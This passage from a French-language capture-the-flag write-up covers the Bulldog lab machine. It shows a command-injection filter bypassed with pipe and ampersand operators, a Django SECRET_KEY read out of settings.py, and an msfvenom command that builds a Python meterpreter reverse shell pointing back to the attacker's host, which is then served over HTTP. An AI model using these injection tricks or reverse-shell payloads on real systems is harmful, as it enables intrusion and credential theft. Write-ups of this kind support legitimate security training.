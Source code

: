 ```console
Command : id
INVALID COMMAND. I CAUGHT YOU HACKER!

Command : ls; id
INVALID COMMAND. I CAUGHT YOU HACKER! ';' CAN BE USED TO EXECUTE MULTIPLE COMMANDS!!

Command : ls | id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

Command : pwd & id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)
/home/django/bulldog

Command : pwd && id
/home/django/bulldog
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

Command : cat bulldog/settings.py | grep SECRET_KEY
SECRET_KEY = '%9a3ph3iwk$v*_#x4ejg8(t5(qll0fl8q8&u+o_g$yi83d*riq'
```

À présent, il s'agit d'obtenir un shell sur le serveur !

## Mise en place d'un reverse shell et accès au serveur Bulldog

Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en Python va être créé et déposé sur le serveur Bulldog. Ce bout de code va, dans un premier temps, créer une connexion sur le port 4444 entre le serveur de l'entreprise (192.168.56.102) et notre propre machine (192.168.56.101), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -o shell.py
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 554 bytes
Saved as: shell.py

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

![Affichage de l'image WebShell-SimpleHTTPServer.png](images/WebShell-SimpleHTTPServer.png)
